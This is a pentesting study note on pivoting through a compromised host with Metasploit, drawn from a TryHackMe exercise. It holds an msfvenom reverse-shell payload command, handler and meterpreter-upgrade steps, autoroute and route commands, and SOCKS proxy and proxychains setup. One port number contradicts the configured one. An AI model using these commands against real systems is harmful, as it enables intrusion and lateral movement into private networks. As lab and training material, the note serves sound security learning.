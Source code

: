 
# Pivoting and Proxying with Metasploit

## Introduction

Pivoting is when an attacker gains foothold on the compromised machine, which then need to be  used to send additional web traffic through to allow previously inaccessible machines to be reached, pivoting though the machine to other in the internal networking. Consider reading [[Port-Redirection-And-Tunneling]], [[Lateral-Movement]], [[Proxies]] and [[Evading-Firewalls]].

Terms used are like many in cyebr security some what interchangable, I personally am looking for to the standardisation that will occur  

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```ruby
use multi/handler
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

For convert shell to meterpreter
```ruby
sessions -u -1 # -1 is the sessions number
```

### Auto-Routing our Traffic

```ruby
use post/multi/manage/autoroute
set SESSION 1
set netmask /CIDR
set subnet $IP
exploit
```

Configuration, [reference](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
```ruby
route # display the active routes
route add <IP ADDRESS OF SUBNET> <NETMASK> <GATEWAY
	  remove
	  flush	# remove all routes from routing table
```

To change the autoroute from one route to another
```ruby
route remove IP/CIDR SESSIONID
route add IP/CIDR SESSIONID
route get
```

## Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have socks/auxiliary/socks\_proxy. 
With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5.
```ruby
use auxiliary/server/socks4a
# msf6 !!
use auxiliary/server/socks_proxy 
run srvhost=127.0.0.1 srvport=9050 version=4a
curl --proxy socks4a://localhost:950 http://$target_ip
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```


## References

[THM Alh4r3d's Pivoting with Metasploit day 9 for AoC 4](https://tryhackme.com/room/adventofcyber4#)